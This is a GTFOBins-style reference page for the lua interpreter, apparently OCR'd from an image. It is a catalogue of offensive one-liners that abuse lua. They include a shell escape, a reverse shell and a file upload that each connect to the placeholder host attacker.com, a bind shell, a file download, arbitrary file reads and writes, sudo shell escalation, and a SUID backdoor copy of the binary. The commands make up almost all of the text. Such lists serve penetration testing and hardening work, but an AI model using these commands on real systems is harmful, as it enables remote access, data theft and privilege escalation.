 lua

**Shell**

It can be used to break out from restricted environments by spawning an interactive system shell.

- lua -e 'os.execute("/bin/sh")'

## **Non-interactive reverse shell**

It can send back a non-interactive reverse shell to a listening attacker to open a remote network access.

- Run nc -l -p 12345 on the attacker box to receive the shell. This requires lua-socket installed.

export RHOST=attacker.com
export RPORT=12345
lua -e 'local s=require("socket");
local t=assert(s.tcp());
t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
while true do
local r,x=t:receive();local f=assert(io.popen(r,"r"));
local b=assert(f:read("*a"));t:send(b);
end;
  f:close();t:close();'

## **Non-interactive bind shell**

It can bind a non-interactive shell to a local port to allow remote network access.

- Run nc target.com 12345 on the attacker box to connect to the shell. This requires lua-socket installed.

export LPORT=12345
lua -e 'local k=require("socket");
local s=assert(k.bind("*",os.getenv("LPORT")));
local c=s:accept();
while true do
local r,x=c:receive();local f=assert(io.popen(r,"r"));
local b=assert(f:read("*a"));c:send(b);
  end;c:close();f:close();'

## **File upload**

It can exfiltrate files on the network.

- Send a local file via TCP. Run nc -l -p 12345 > "file_to_save" on the attacker box to collect the file. This requires lua-socket installed.

RHOST=attacker.com
RPORT=12345
LFILE=file_to_send
lua -e '
local f=io.open(os.getenv("LFILE"), 'rb')
local d=f:read("*a")
io.close(f);
local s=require("socket");
local t=assert(s.tcp());
t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
t:send(d);
  t:close();'

## **File download**

It can download remote files.

- Fetch a remote file via TCP. Run nc target.com 12345 < "file_to_send" on the attacker box to send the file. This requires lua-socket installed.

export LPORT=12345
export LFILE=file_to_save
lua -e 'local k=require("socket");
local s=assert(k.bind("*",os.getenv("LPORT")));
local c=s:accept();
local d,x=c:receive("*a");
c:close();
local f=io.open(os.getenv("LFILE"), "wb");
f:write(d);
  io.close(f);'

## **File write**

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

- lua -e 'local f=io.open("file_to_write", "wb"); f:write("DATA"); io.close(f);'

## **File read**

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

- lua -e 'local f=io.open("file_to_read", "rb"); print(f:read("*a")); io.close(f);'

## **Sudo**

It runs in privileged context and may be used to access the file system, escalate or maintain access with elevated privileges if enabled on sudo.

- sudo lua -e 'os.execute("/bin/sh")'

## **Limited SUID**

It runs with the SUID bit set and may be exploited to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands it only works on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To exploit an existing SUID binary skip the first command and run the program using its original path.

- sudo sh -c 'cp $(which lua) .; chmod +s ./lua'

./lua -e 'os.execute("/bin/sh")'